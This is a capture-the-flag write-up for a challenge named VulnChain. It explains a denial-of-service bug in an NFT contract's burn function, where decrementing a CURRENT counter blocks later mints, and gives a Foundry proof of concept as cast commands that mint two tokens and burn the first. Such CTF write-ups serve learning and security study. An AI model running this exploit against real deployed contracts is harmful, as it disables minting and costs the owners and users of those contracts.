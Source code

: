 ## VulnChain

The vuln is in `burn` due to the handling of `CURRENT` and lead to a DOS.

You can burn any NFT you possess and it will decrease `CURRENT` of one. If you do it on any NFT already minted except the last, `CURRENT` will point on an existing NFT, and cannot mint again on this TokenID. It will revert with "ERC721InvalidSender" (See ERC721 for more information).

To cancel the DOS, you can burn all token from `CURRENT` to the last minted token, but it will be a big lack of money in real contexte, and will not prevent the contract to be exploited again.

### PoC with Foundry :

Collect the contract address :

```bash
cast storage $SETUP_CONTRACT 0 --rpc-url $RPC_URL
```

Mint 2 NFT and burn the first one :

```bash
cast send $CONTRACT "mint(uint8)" 2 --value 1.38ether --rpc-url $RPC_URL --private-key $LOCAL_PRIVATE_KEY --gas-limit 7000000

cast send $CONTRACT "burn(uint16)" 1 --rpc-url $RPC_URL --private-key $LOCAL_PRIVATE_KEY --gas-limit 7000000`
```

The challenge is solved and we can get the flag.
